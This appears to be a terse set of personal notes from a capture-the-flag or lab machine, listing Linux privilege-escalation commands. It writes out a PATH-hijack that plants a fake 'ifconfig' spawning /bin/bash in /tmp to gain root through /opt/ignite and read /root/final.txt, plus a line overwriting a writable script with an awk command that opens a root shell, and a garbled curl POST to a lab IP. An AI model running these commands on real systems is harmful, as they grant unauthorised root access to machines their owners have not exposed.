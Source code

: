 # **linux**

path based  
  
cd /tmp  
echo "/bin/bash" > ifconfig  
chmod 777 ifconfig  
export PATH=/tmp:$PATH  
/opt/ignite  
cd /root  
ls  
cat final.txt  
  
  
  
  
  
  
curl -X POST [http://](http://10.10.10.140/index.php/lavalamp/index)x.x.x.x  
  
  
/home/patrick/script/test  
echo "awk 'BEGIN {system(\"/bin/bash\")}'" > test